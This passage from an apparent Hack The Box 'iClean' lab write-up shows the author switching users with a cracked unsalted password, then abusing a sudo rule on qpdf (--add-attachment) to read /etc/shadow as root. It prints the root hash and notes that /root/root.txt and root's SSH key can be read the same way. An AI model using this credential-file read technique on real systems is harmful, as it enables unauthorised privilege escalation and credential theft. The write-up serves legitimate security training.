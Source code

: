 Looking at the code in `app.py` I confirm these hashes aren't salted. CrackStation has an entry:

![](_/htb-iclean-20240529-13.png)

```console
www-data@iclean:/opt/app$ su - consuela
Password:
consuela@iclean:~$ cat user.txt 
c6a599a...
```

Now, for root.

```console
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

<https://qpdf.readthedocs.io> tells us:

> QPDF is a program and C++ library for structural, content-preserving transformations on PDF files.

Looking through all the many, _many_ options for `qpdf`, I see there's an `--add-attachment` option that can probably be leveraged for reading files as root.

```console
consuela@iclean:~$ sudo /usr/bin/qpdf --empty -qdf /dev/stdout --add-attachment /etc/shadow -- |grep ^root\:
root:$y$j9T$s0AIwd7onN6K77K5v8DNN/$bSd333U5BKvkfCPEGdf9dLl3bOYwqOlFNtGZ1FQQuv/:19774:0:99999:7:::
```

The above can be used to read `/root/root.txt`, and on this machine there's also an SSH key for root at `/root/.ssh/id_rsa`. Otherwise it's possible to crack the shadowed password above, although it would be very time-intensive.

## Open Questions

Unresolved issues encountered while attacking this target.

- If there was no `id_rsa` key for root and the shadowed password was uncrackable, how else would I get code execution as root?
